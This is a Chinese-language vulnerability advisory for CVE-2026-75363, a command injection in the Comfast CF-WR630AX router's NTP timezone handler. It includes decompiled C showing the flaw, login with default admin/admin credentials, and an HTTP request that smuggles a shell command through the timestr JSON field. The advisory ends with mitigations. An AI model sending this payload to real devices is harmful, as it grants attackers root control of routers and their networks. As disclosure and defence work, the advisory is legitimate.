


# CVE-2026-75363 — Comfast CF-WR630AX `webmgnt` ntp_timezone 命令注入

## 基本信息

| 项目 | 内容 |
| --- | --- |
| CVE 编号 | CVE-2026-75363 |
| 受影响产品 | Comfast CF-WR630AX（sysupgrade 构建 2024-01-30，OpenWrt 21.02-SNAPSHOT r0-10d74dc） |
| 漏洞类型 | CWE-77 命令注入（OS Command Injection） |
| 攻击向量 | 网络（HTTP，认证后） |
| 执行上下文 | root（`system()`） |
| CVSS（参考） | 8.8（CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H） |
| PoC | [poc.py](./poc.py) |

## 漏洞概述

Web 管理后端 `/usr/bin/webmgnt`（FastCGI，经 nginx `/cgi-bin/*` 代理）的
`ntp_timezone` SET 处理器（`sub_418208`）将用户可控的 `timestr` 参数经
`sprintf()` 拼入命令模板后由 `system()` 以 **root** 执行：

其中off_468ED8、off_4685B0如下图：


```c
char s[128];
sprintf(s, "date -s \"%s\" > /dev/null", timestr);   // 未转义
system(s);                                            // ← sink, root 执行
```

`timestr` 被包裹在**双引号**内，注入 `x";cmd;#` 即可逃逸并执行任意命令。

## 关键前提（已从反编译确认）

处理器对 `ntp_client_enabled` 调用 `atoi()`，仅当其值为 `0` 时才会走到
`system()` 分支：

```c
if (ntp_client_enabled) {           // JSON 字段
    if (!atoi(v)) {                 // 0 才进入
        sprintf(s, "date -s \"%s\" > /dev/null", timestr);
        system(s);
    }
}
```

因此 PoC 请求体**必须携带** `"ntp_client_enabled":"0"`。

## 复现（已验证，QEMU user-mode 仿真）

1. 登录获取会话：
   ```http
   POST /cgi-bin/login HTTP/1.1
   Content-Type: application/json

   {"username":"admin","password":"admin"}
   ```
2. 触发注入：
   ```http
   POST /cgi-bin/mbox-config?method=SET&section=ntp_timezone HTTP/1.1
   Content-Type: application/json

   {"timestr":"x\";echo PWNED >/tmp/pwn_ntp;#","ntp_client_enabled":"0"}
   ```
3. 结果：HTTP `200 {"errCode":0,"errMsg":"OK"}`，注入命令以 root 执行，
   `/tmp/pwn_ntp` 内容为 `PWNED`。

## 影响

- 以 root 执行任意命令，完全控制设备。
- 可读取配置/WiFi 凭据、植入后门、横向渗透内网。

## 缓解建议

- 厂商：`timestr` 用正则白名单（仅允许时区字符 `[0-9: -+A-Za-z]`）；
  改用 `execve` 参数化；强制强管理员密码。
- 用户：升级修复固件；限制 WAN 侧管理；修改默认 `admin/admin`。

## 参考

- https://www.comfast.com.cn
- OWASP FSTM
